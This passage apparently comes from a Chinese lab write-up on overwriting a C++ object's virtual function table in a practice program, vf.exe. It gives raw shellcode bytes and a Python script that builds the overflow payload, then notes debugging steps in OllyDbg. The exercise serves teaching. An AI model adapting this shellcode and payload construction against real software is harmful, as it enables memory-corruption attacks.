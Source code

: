 参考上文中的shellcode1，argv[1]可以构造为4B填充数据+26Bshellcode+2B填充字节+3Bshellcode无\\x00起始地址（0042EB60）

```
\x90\x90\x90\x90\x33\xDB\x53\x68\x62\x75\x70\x74\x68\x62\x75\x70\x74\x8B\xC4\x53\x50\x50\x53\xB8\x68\x3D\xE2\x77\xFF\xD0\x90\x90\x60\xEB\x42
```

写python脚本，输出shellcode payload。

```python
from os import system
if __name__ == '__main__':
    argv1 = b'\x90\x90\x90\x90\x33\xDB\x53\x68\x62\x75\x70\x74\x68\x62\x75\x70\x74\x8B\xC4\x53\x50\x50\x53\xB8\x68\x3D\xE2\x77\xFF\xD0\x90\x90\x60\xEB\x42'
    argv2 = b'\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x7C\xEB\x42'
    cmd = b'vf.exe '+ argv1 + b' ' + argv2
    f = open('exploit.txt','wb')
    f.write(cmd)
    f.close()
```

![](2022-11-17-%E8%99%9A%E5%87%BD%E6%95%B0%E5%AE%9E%E9%AA%8C/image-20221117182451320.png)

复制文件内容，在OD中传参调试。

![image-20221117182608012](2022-11-17-%E8%99%9A%E5%87%BD%E6%95%B0%E5%AE%9E%E9%AA%8C/image-20221117182608012.png)

运行到两次拷贝后查看实例的位置，两箭头所指为实例虚表位置，shellcode按预期写入。

![image-20221117182650719](2022-11-17-%E8%99%9A%E5%87%BD%E6%95%B0%E5%AE%9E%E9%AA%8C/image-20221117182650719.png)
